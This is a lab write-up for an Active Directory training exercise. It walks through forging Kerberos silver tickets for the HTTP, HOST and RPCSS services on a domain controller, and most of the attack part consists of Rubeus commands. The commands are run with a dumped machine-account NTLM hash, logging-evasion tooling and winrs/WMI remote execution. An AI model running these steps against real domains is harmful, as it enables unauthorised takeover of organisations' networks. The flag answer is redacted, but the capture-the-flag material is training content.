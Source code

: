 ```yaml
---
description: Learning Object 9
icon: vial
---
```


# 9 - LO9️

## Tasks



1 - Try to get command execution on the domain controller by creating silver ticket for:

* HTTP
* WMI

Flag 18 \[dcorp-dc] - The service whose Silver Ticket can be used for winrs or PowerShell Remoting 🚩



## Solutions

### 1 - Try to get command execution on the domain controller by creating silver ticket for:

Based on the last task we already have the hash for the machine account of the domain controller (dcorp-dc$).&#x20;

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : e4ce16e20da2e11d2901e0fb8a4f28b0
```

#### HTTP

We can create a Silver Ticket that provides us access to the HTTP service (WinRM) on DC:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:e4ce16e20da2e11d2901e0fb8a4f28b0 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

We can check if we got the correct service ticket:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args klist
```

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

And run `klist` or  `C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args klist` we can see it

`http/dcorp-dc.dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL`

<figure><img src="../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

let's try accessing it using winrs. Note that we are using FQDN of dcorp-dc as that is what the service ticket has:

```powershell
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
set username
set computername
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

#### WMI

For accessing WMI, we need to create two tickets: one for HOST service and another for RPCSS.

We can start to run the following commands from an elevated shell:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:host/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:rpcss/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

Verify that tickets generated are present:

<figure><img src="../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

let's try to use WMI commands on the domain controller:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

### Flag 18 \[dcorp-dc] - The service whose Silver Ticket can be used for winrs or PowerShell Remoting 🚩

As we can see in the previous task the XXXX service can be used for winrs or PowerShell Remoting.
